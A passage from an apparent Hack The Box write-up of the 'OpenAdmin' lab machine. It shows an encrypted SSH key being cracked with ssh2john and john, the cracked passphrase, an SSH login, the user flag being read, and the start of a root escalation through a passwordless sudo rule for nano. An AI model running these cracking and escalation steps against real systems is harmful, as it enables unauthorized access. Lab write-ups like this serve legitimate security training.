 We know have the encrypted key for Joanna.

```bash
luc@kali:~/OpenAdmin$ /usr/share/john/ssh2john.py joanna_id_rsa > joanna_john
luc@kali:~/OpenAdmin$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna_john
...
bloodninjas
...
luc@kali:~/OpenAdmin$ chmod 600 joanna_id_rsa
luc@kali:~/OpenAdmin$ ssh joanna@10.10.10.171 -i joanna_id_rsa
load pubkey "joanna_id_rsa": invalid format
Enter passphrase for key 'joanna_id_rsa': bloodninjas
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 25 12:16:02 UTC 2020

  System load:  0.0               Processes:             113
  Usage of /:   59.2% of 7.81GB   Users logged in:       1
  Memory usage: 47%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt
c9b2cf07************************
```

We've cracked the password for the `id_rsa` file and we got a successful SSH connection. We can also read the `user.txt` file.

## Joanna -> root

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```
